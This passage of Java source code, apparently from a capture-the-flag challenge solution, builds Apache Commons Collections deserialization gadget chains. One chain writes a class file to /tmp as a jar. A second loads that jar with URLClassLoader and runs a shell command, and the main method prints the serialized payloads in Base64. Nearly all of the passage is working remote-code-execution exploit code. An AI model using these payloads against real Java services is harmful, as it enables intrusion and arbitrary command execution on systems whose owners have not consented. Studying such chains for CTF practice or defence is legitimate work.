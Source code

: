 ```java=
                new InvokerTransformer("newInstance", new Class[] { Object[].class }, new Object[] { new String[] {"/tmp/RunCheckConfig.jar"} }),
                new InvokerTransformer("write", new Class[] { byte[].class }, new Object[] { classBytes }),
                new ConstantTransformer(1) };
        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map lazyMap = (Map) LazyMap.decorate(new HashMap(), chain);
        TiedMapEntry tied = new TiedMapEntry(lazyMap, 1);

        try {
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(bos);
            oos.writeObject(tied);
            oos.close();
            return bos.toByteArray();
        } catch (IOException e) { throw new RuntimeException(e); }
    }

    // javac RunCheckConfig.java
    // jar -cvf RunCheckConfig.jar RunCheckConfig.class
    public static byte[] genBytesContent() throws IOException {
        String classFilePath = "RunCheckConfig.jar";
        return Files.readAllBytes(Paths.get(classFilePath));
    }

    public static byte[] rcePayload(String cmd) throws MalformedURLException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(java.net.URLClassLoader.class),
                new InvokerTransformer("getConstructor", new Class[] { Class[].class }, new Object[] { new Class[] { java.net.URL[].class } }),
//                new InvokerTransformer( "newInstance", new Class[] { Object[].class }, new Object[] { new Object[] { new java.net.URL[] { new java.net.URL( "file:///D:\\Labs\\My_CTF_Chall\\KCSC2025\\java-med\\Legacy\\Legacy\\RunCheckConfig.jar") } } }),
                new InvokerTransformer( "newInstance", new Class[] { Object[].class }, new Object[] { new Object[] { new java.net.URL[] { new java.net.URL( "file:///tmp/RunCheckConfig.jar") } } }),
                new InvokerTransformer("loadClass", new Class[] { String.class }, new Object[] { "RunCheckConfig" }),
                new InvokerTransformer("getConstructor", new Class[] { Class[].class }, new Object[] { new Class[] { String.class } }),
                new InvokerTransformer("newInstance", new Class[] { Object[].class }, new Object[] { new String[] { cmd } }),
                new ConstantTransformer(1) };

        ChainedTransformer chain = new ChainedTransformer(transformers);
        Map lazyMap = (Map) LazyMap.decorate(new HashMap(), chain);
        TiedMapEntry tied = new TiedMapEntry(lazyMap, 1);

        try {
            ByteArrayOutputStream bos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(bos);
            oos.writeObject(tied);
            oos.close();
            return bos.toByteArray();
        } catch (IOException e) { throw new RuntimeException(e);}
    }

    public static void main(String[] args) throws IOException {
        byte[] setupPayload = setupPayload();
        System.out.println("Setup Payload");
        System.out.println(Base64.getEncoder().encodeToString(setupPayload));

        byte[] payload = rcePayload("id");
```